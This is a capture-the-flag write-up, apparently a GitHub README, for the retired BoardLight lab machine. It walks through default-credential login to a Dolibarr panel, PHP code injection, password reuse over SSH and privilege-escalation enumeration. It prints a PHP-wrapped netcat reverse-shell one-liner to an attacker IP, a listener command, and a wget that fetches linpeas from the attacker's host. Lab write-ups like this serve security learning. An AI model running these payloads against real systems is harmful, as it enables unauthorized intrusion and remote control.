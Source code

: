 # BoardLight

![image](https://github.com/user-attachments/assets/2b73bf05-62a1-4243-8386-b94047464da6)

Hi! Today we have a machine **BoardLight**. So, let's start.

## Enumiration

(don't forget to add **board.htb** to `hosts`)

As usually as usual, we start with **nmap**.

![image](https://github.com/user-attachments/assets/9b29279e-1896-45f1-8310-8e26be5d5498)

Here we can see two ports, **http** (80) and **SSH** (22). Well, let's check website.

## Checking HTTP (80 port)

![image](https://github.com/user-attachments/assets/19c61d38-de44-45c2-a2ef-919c80781105)

After browsing the site, I didn't find anything special, so let's check the directories using **gobuster**

```
gobuster dir -u http://board.htb -w /usr/share/dirb/wordlists/common.txt
```

![image](https://github.com/user-attachments/assets/e9e60b7e-ac7c-4e83-8a07-782c2c47d0a4)

Hmm, nothing interesting. Let's check the subdomains.

```
gobuster dns -d board.htb -w subdomains-top1million-5000.txt
```

![image](https://github.com/user-attachments/assets/aea9a0f7-8b5a-494b-b430-0c93de7205c6)

1 subdomain, let's check it out

![image](https://github.com/user-attachments/assets/40bd5fe5-fa4d-470f-9ca5-1131b38b55d2)

And yes! That's it. I tried the standard login and password `admin:admin` and it worked.

![image](https://github.com/user-attachments/assets/6d752c5a-23d4-4226-aa4c-1e3214cec510)

The protection has worked, so we have limitations(

The **websites** tab immediately catches your eye:

![image](https://github.com/user-attachments/assets/4f0738ed-a0e1-4ecb-be16-bcaa40029dab)

Here we can create our own website.

![image](https://github.com/user-attachments/assets/42b0dc9d-7f76-4b5c-bc25-84b26a7209f1)

I created some kind of random website. You can also edit the html code

![image](https://github.com/user-attachments/assets/708ebb79-25ff-4806-b72e-7bde3a7c1e81)

Let's write a simple PHP code for check:

```
<?PHP echo system("whoami");?>
```

![image](https://github.com/user-attachments/assets/174d5968-20c8-4cd8-bddf-9fbf957e3bca)

Save and click on the binoculars icon to view our website.

![image](https://github.com/user-attachments/assets/7f66eb6e-9593-405b-b6ea-3ef4afcae1e3)

![image](https://github.com/user-attachments/assets/ec7829c6-b231-49f3-8ddf-984a1a9e03f4)

And here is our vulnerability, the site has issued a response to the `whoami` command. Let's try to get **reverse shell**.

My site crashes VERY often, so it needs to be recreated every time...

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.181 9999 >/tmp/f");?>
```
Instead of my ip, put yours, (you can view it using the command `ip a`, it will be in tun0).

we launch **netcat** through the shell:

```
nc -lvnp 9999
```

Now, save it again and click on the binoculars and we get access to the server!.

## Shell

![image](https://github.com/user-attachments/assets/791538f2-97cf-4cea-873c-d81609b06067)

For convenience, we create a terminal interface.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

In the '/home` directory, we see the user *larissa*, and of course we do not have access to her directory:

![image](https://github.com/user-attachments/assets/0f6d5c46-3097-40ed-8f80-18feca2f3e14)

![image](https://github.com/user-attachments/assets/7fdfcaa2-e6cf-4018-97f6-a549d3029468)

I Googled where the entire dolibarr database is located and as you can see on the [wiki](https://wiki.dolibarr.org/index.php?title=Configuration_file) it says that it is in a file `conf.php `

![image](https://github.com/user-attachments/assets/bbbffe37-269f-4b52-a5f9-b4f5391f0581)

And here is our password and it looks like it is for **larissa**. We have an open **ssh**, so let's try to log in through it.

## Shell as larissa (SSH)

use `larissa:serverfun2$2023!!`

```
ssh larissa@10.10.11.11
```

![image](https://github.com/user-attachments/assets/70b59c50-031c-47a3-be6e-9e7caf9903de)

so we entered as larissa.

![image](https://github.com/user-attachments/assets/e45cfbb3-45e7-4181-8606-381362e1662e)

 And here our ***user flag***. (and other people's exploits ;) )

## Privilege Escalation
 
 ![image](https://github.com/user-attachments/assets/d273b685-0a62-4f24-9058-4ae85dbb241c)

It's sad. But let's transfer our **lineass** to the server (I deleted all other people's files).

Launching our server for transfer:

```
sudo python3 -m http.server 9999
```
and get our linpeas:

```
wget http://10.10.14.181:9999/linpeas.sh
```

launch linpeas with `./linpeas.sh`.

![image](https://github.com/user-attachments/assets/6d87ffc0-0635-4f19-b7cd-4f056140663d)

Hmm, let's check the version of **enlightenment**:

![image](https://github.com/user-attachments/assets/843d4023-2344-4969-ae06-b766712d2fd6)

![image](https://github.com/user-attachments/assets/617b5df8-4ec2-4dd3-b4f7-4aa4cb4d8e89)

and this version is really vulnerable!

download a **bash script**, getting root and root flag.

## Conclusion

**BoardLight** was my first machine that I hacked myself, so it was nice to remember and write an analysis about it. Unfortunately, I didn't finish the part about getting the root flag, because it finally retired. 

Good luck! ;)
